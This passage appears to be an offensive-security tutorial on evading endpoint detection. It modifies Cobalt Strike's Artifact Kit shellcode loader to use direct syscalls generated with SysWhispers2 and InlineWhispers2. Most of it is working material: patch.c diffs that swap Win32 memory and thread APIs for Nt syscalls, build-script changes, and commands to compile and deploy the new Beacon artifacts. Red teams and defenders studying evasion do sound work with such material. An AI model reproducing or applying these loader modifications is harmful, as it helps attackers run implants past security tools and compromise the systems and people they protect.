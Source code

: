The use of syscalls can be integrated into Cobalt Strike's Artifact Kit, which is useful in cases where Beacon payloads are being detected through their use of APIs.  The payloads themselves act as simple shellcode loaders, which bootstrap and run a reflective package.

For instance - the default EXE payload uses VirtualAlloc, VirtualProtect and CreateThread to execute Beacon shellcode inside itself.  This is the spawn function, located in `cobaltstrike/arsenal-kit/kits/artifact/src-common/patch.c`.

 89 #elif USE_VirtualAlloc
 90    ptr = VirtualAlloc(0, length, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

...

113 #if defined(USE_VirtualAlloc) || defined(USE_MapViewOfFile)
114    /* fix memory protection */
115    DWORD old;
116    VirtualProtect(ptr, length, PAGE_EXECUTE_READ, &old);
117 #endif
118
119    /* spawn a thread with our data */
120    CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)&run, ptr, 0, NULL);

  

The default output from SysWhispers2 doesn't play nice with Beacon artifacts or BOFs.  So we need to use another tool, [InlineWhispers2](https://github.com/Sh0ckFR/InlineWhispers2) to convert the output slightly.

ubuntu@teamserver ~/I/SysWhispers2 (main)> pwd
/home/ubuntu/InlineWhispers2/SysWhispers2

ubuntu@teamserver ~/I/SysWhispers2 (main)> python3 syswhispers.py -p all -o syscalls_all
ubuntu@teamserver ~/I/SysWhispers2 (main)> cd ..
ubuntu@teamserver ~/InlineWhispers2 (main)> python3 InlineWhispers2.py

Sh0ckFR - https://twitter.com/Sh0ckFR
Import syscalls.c syscalls.h, syscalls-asm.h in your project and include syscalls.c to start to use syscalls

  

Copy `syscalls.c`, `syscalls.h` and `syscalls-asm.h` to `src-common` inside the artifact kit directory structure.

ubuntu@teamserver ~/InlineWhispers2 (main)> ls output/
syscalls-asm.h  syscalls.c  syscalls.h

ubuntu@teamserver ~/InlineWhispers2 (main)> cp output/* ~/cobaltstrike/arsenal-kit/kits/artifact/src-common/

  

Open `patch.c` in an editor and add `#include "syscalls.c"` above the `spawn` function.

 66 #include "syscalls.c"
 67 void spawn(void * buffer, int length, char * key) {

  

Then it's just a case of replacing the Win32 API calls with their Nt equivalent.

 90 #elif USE_VirtualAlloc
 91    HANDLE hProcess;
 92
 93    /* get handle to own process */
 94    OBJECT_ATTRIBUTES oa;
 95    InitializeObjectAttributes(&oa, 0, 0, 0, 0);
 96
 97    CLIENT_ID cid = { (HANDLE)GetCurrentProcessId(), NULL};
 98    NtOpenProcess(&hProcess, PROCESS_ALL_ACCESS, &oa, &cid);
 99
100    /* allocate memory */
101    SIZE_T regionSize = (SIZE_T)length;
102    NtAllocateVirtualMemory(hProcess, &ptr, 0, &regionSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  

125 #if defined(USE_VirtualAlloc) || defined(USE_MapViewOfFile)
126    /* fix memory protection */
127    DWORD old;
128    NtProtectVirtualMemory(hProcess, &ptr, &regionSize, PAGE_EXECUTE_READ, &old);

  

132    /* spawn a thread with our data */
133    HANDLE hThread;
134    NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, hProcess, &run, ptr, FALSE, 0, 0, 0, NULL);

  

Before being able to rebuild the artifacts, we have to modify `build.sh`.

1.  Modify the two `c_options` variables in the `build_artifacts64` function to include `-masm=intel`.  At the time of writing, these are on lines 79 and 102.
2.  Since in this example, we've only generated x64 syscalls, we need to disable the x86 builds by commenting out the call to `build_artifacts` (line 282).  If you require x86 builds, you can use the `_M_X64` directive inside the artifact source code to reference different syscalls files.

  

Run the build script, ensuring to specify the VirtualAlloc allocation type.

ubuntu@teamserver ~/c/a/k/artifact> ./build.sh pipe VirtualAlloc 271360 5 true false /tmp/artifact

  

Copy the new artifacts to the Attacker Windows VM and load the `artifact.cna`.  

C:\Users\Administrator>pscp -r -i Desktop\ssh.ppk ubuntu@10.10.0.69:/tmp/artifact/pipe C:\Tools\cobaltstrike
artifact64svc.exe         | 21 kB |  21.0 kB/s | ETA: 00:00:00 | 100%
artifact.cna              | 11 kB |  11.4 kB/s | ETA: 00:00:00 | 100%
artifact64.x64.dll        | 53 kB |  53.5 kB/s | ETA: 00:00:00 | 100%
artifact64big.x64.dll     | 317 kB | 317.5 kB/s | ETA: 00:00:00 | 100%
artifact64.exe            | 54 kB |  54.5 kB/s | ETA: 00:00:00 | 100%
artifact64big.exe         | 318 kB | 318.5 kB/s | ETA: 00:00:00 | 100%
artifact64svcbig.exe      | 285 kB | 285.0 kB/s | ETA: 00:00:00 | 100%

  

Then go to **Attacks > Packages > Windows Executable (S)** and generate a new x64 Windows EXE.

